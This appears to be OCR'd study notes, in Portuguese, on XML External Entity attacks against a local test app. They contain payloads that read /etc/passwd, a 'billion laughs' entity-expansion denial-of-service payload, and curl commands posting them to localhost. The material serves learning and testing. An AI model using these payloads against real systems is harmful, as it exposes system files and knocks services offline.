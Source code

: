 ```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<request>
  <name>&xxe;</name>
</request>
```
`DOCTYPE` define uma DTD (Document Type Definition). Dentro dele, é criada a entidade `xxe`, que não é um texto comum, mas um arquivo externo do sistema, o `file:///etc/passwd`
Sempre que o XML usar `&xxe`, o parser tenta ler o conteúdo do arquivo e colocar no lugar

```bash
curl -X POST http://localhost:5000/xml --data-urlencode "xml@xxe_test.xml"
```

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc///passwd">
]>
<request>
  <name>&xxe;</name>
</request>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

```xml
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<data>&lol9;</data>
```
```bash
curl -X POST http://localhost:5000/xml --data-urlencode "xml@xxe_ddos.xml"
```
